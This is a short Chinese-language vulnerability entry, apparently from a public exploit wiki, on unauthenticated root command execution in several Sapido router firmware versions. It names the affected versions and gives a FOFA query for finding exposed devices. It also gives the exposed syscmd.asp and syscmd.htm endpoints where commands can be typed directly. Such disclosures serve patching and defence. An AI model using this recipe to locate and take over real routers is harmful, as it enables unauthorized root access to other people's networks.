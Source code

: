 # Sapido多款路由器命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

> [!NOTE]
>
> BR270n-v2.1.03
>
> BRC76n-v2.1.03
>
> GR297-v2.1.3
>
> RB1732-v2.0.43

## FOFA

> [!NOTE]
>
> app="Sapido-路由器"

## 漏洞复现

固件中存在一个asp文件为 **syscmd.asp** 存在命令执行

![](http://wikioss.peiqi.tech/vuln/sa-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

访问目标:

```
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```

![](http://wikioss.peiqi.tech/vuln/sa-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

直接输入就可以命令执行了

